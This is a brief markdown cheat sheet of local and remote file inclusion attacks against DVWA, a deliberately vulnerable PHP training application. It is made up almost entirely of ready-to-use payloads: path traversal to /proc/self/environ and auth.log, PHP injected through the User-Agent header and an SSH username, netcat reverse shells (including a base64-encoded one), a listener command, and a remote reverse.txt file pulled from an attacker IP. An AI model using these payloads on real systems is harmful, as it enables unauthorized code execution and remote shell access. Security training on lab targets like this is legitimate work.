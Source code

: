 # File Inclusion

## LFI - Method 1
1. *"USER_AGENT"* in in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify *"USER_AGENT"* header for test
   - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
3. Listening on attacker machine
   - ```nc -vv -l -p 8888```
4. Modify *"USER_AGENT"* header for Reverse-shell
   - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```  

## LFI - Method 2
1. SSH login attempts are in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
3. Listening on attacker machine 
   - ```nc -vv -l -p 8888```
4. Attacker machine
   - ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```


## RFI
1. Save the code as *"reverse.txt"*
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
2. Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
   - If extnsion be ```php```, it will run on kali machine. 
   - ```?``` is for run the code in victim machine
